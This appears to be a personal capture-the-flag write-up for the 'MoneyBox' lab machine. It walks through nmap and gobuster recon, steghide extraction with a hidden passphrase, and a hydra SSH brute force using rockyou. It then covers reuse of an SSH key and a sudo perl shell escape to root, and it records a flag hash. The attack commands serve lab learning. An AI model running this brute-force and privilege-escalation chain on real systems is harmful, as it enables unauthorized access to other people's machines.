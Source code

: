 FTP has anon login and a jpg file visible on the nmap scan. I also find a web page on port 80.

i find /blogs  with gobuster and a fellow hacker leaves me a hint in the source code.
`<!--the hint is the another secret directory is S3cr3t-T3xt-->`

S3cr3t-T3xt

/S3cr3t-T3xt

`<!..Secret Key 3xtr4ctd4t4 >`

3xtr4ctd4t4

```php
steghide extract -sf trytofind.jpg
```

Pass: 3xtr4ctd4t4

```php
cat data.txt
```

```php
Hello.....  renu

I tell you something Important.Your Password is too Week So Change Your Password
Dont Underestimate it.......
```

```php
hydra -l renu -P /usr/share/wordlists/rockyou.txt ssh://$IP
```

```php
[22][ssh] host: 192.168.240.230   login: renu   password: 987654321
```

![[Pasted image 20240915082609.png]]

user: renu
pass: 987654321

local flag.txt is in renu home dir:
`8b559a34c56fe4fbeb7750805b87581b`

`Sorry, user renu may not run sudo on MoneyBox.`

I have access to a lily user authorized keys file.
`drwxr-xr-x 2 lily lily 4096 Feb 26  2021 .ssh`

After taking a second look i don't think i can do anything with it, i'll cd into dev/shm and get the tools uploaded.

It looks like i can copy renu id_rsa and use it to login to lily account
`/home/lily/.ssh/authorized_keys`

They both seem to use renu id key:

![[Pasted image 20240915084126.png]]

![[Pasted image 20240915084921.png]]

![[Pasted image 20240915084338.png]]

```php
sudo -l
```

```php
User lily may run the following commands on MoneyBox:
(ALL : ALL) NOPASSWD: /usr/bin/perl
```

https://gtfobins.github.io/gtfobins/perl/

```php
sudo perl -e 'exec "/bin/sh";'
```

![[Pasted image 20240915084658.png]]

---

08:48 2024-09-15
